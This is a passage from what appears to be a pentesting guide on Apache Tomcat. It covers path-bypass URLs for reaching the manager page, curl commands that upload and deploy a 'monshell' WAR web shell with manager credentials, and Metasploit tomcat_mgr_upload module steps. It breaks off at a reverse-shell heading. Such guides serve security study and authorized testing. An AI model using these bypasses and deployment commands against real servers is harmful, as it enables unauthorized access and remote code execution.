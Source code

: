 So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`


## RCE

Finally, if you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

### Limitations

You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**). Those details can be find under _tomcat-users.xml_ usually defined in `/usr/share/tomcat9/etc/tomcat-users.xml` (it vary between versions) (see [POST ](tomcat.md#post)section).
```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
### Metasploit

Metasploit is a powerful framework for penetration testing and exploiting vulnerabilities in various systems and applications. It provides a wide range of tools and modules that can be used to identify and exploit security weaknesses.

Metasploit is written in Ruby and is available as an open-source project. It offers both a command-line interface (CLI) and a graphical user interface (GUI) called Armitage.

With Metasploit, you can perform various tasks such as scanning for open ports, identifying vulnerable services, and launching exploits. It also includes a database that can be used to store and manage information about targets, vulnerabilities, and exploits.

Metasploit supports a wide range of exploits, payloads, and auxiliary modules. Exploits are used to take advantage of specific vulnerabilities, while payloads are used to deliver malicious code to the target system. Auxiliary modules provide additional functionality, such as scanning and fingerprinting.

Metasploit also includes features for post-exploitation activities, such as privilege escalation, lateral movement, and data exfiltration. It allows you to pivot through compromised systems and maintain access to the target network.

Overall, Metasploit is a versatile and powerful tool for penetration testing and exploiting vulnerabilities. It is widely used by security professionals and hackers alike for assessing the security of systems and applications.
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```
### MSFVenom Reverse Shell
